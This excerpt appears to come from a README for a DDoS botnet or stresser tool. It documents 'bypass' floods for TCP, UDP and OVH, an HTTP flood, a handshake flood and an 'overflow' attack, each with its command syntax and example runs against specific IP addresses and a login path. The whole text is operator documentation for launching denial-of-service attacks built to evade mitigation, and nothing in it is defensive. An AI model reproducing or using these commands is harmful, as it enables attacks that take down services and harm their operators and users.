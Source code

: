 ### Bypass Methods

#### 6. **TCP Bypass** (`tcpbypass`)
```
tcpbypass <target> <duration> [flags]
```
**Example:**
```
tcpbypass 50.7.22.221 20 dport=80 syn=1
tcpbypass 192.168.1.1 30 len=1024 sport=80
```

#### 7. **UDP Bypass** (`udpbypass`)
```
udpbypass <target> <duration> [flags]
```
**Example:**
```
udpbypass 50.7.22.221 20 dport=53
udpbypass 192.168.1.1 30 len=1024 dport=80
```

#### 8. **OVH Bypass** (`ovhbypass`)
```
ovhbypass <target> <duration> [flags]
```
**Example:**
```
ovhbypass 50.7.22.221 20 dport=80
ovhbypass 192.168.1.1 30 len=1024 dport=443
```

### Layer 7 Attacks

#### 9. **HTTP Flood** (`httpflood`)
```
httpflood <target> <duration> [flags]
```
**Example:**
```
httpflood 50.7.22.221 20 domain=http://example.com conns=1000
httpflood 192.168.1.1 30 domain=https://target.com method=POST path=/login
```

#### 10. **Handshake Flood** (`handshake`)
```
handshake <target> <duration> [flags]
```
**Example:**
```
handshake 50.7.22.221 20 dport=22
handshake 192.168.1.1 30 len=1024 dport=443
```

#### 11. **Overflow Attack** (`overflow`)
```
overflow <target> <duration> [flags]
```
**Example:**
```
overflow 50.7.22.221 20 len=65535
overflow 192.168.1.1 30 minlen=1000 maxlen=10000
```
